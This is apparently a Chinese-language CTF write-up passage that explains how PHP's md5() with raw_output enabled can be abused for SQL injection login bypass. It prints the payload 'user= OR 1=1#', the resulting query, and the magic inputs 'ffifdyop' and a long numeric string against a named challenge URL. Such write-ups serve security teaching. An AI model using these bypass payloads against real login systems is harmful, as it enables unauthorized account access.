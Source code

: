 ```php
string md5 ( string $str [, bool $raw_output = false ] )
```

- 题解

*auth新建了一个RealSecureLoginManager对象，传进去POST的user和passwd。在md5方法中，如果可选的 raw_output 被设置为 TRUE，那么 MD5 报文摘要将以16字节长度的原始二进制格式返回。*

- fuzz

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200514111159.png)

- payload

```SQL
user= OR 1=1#&passwd=128
```

- SQL 

```SQL
select count(p) from user s where password='v�a�n���l���q��\' and user=' OR 1=1#'
```

### 实例分析

- 题目地址

```
http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php
```

### 分析

- 查看源代码

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200514111818.png)

- password

```php
md5($password,true)
```

- payload

```php
password=ffifdyop或者129581926211651571912466741651878684928
```

- 测试

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200514112614.png)


## Tips整理

- in_array
